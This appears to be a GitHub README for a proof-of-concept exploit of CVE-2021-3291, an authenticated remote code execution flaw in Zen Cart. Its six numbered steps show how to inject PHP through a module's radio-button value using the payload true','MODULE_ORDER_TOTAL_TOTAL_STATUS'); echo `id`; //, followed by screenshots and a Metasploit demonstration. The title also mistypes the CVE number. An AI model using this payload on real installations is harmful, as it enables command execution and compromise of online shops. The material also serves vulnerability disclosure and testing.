 # zencart_auth_rce_poc CVE-20021-3291


1-) login as admin

2-) get any modules edit page

3-) inspect element any true radiobox

4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo \`id\`; //

5-) click update

6-) to trig command go again edit page

CVE-2021-3291 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3291


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)

Metasploit 

![Ekran görüntüsü 2021-01-27 00-03-55](https://user-images.githubusercontent.com/29048982/105906034-3fce9080-6034-11eb-94cb-feb792b3105b.png)



GIF

![kanit](https://user-images.githubusercontent.com/29048982/105517880-a5471800-5ce8-11eb-8a27-84e1ef0b2c7e.gif)
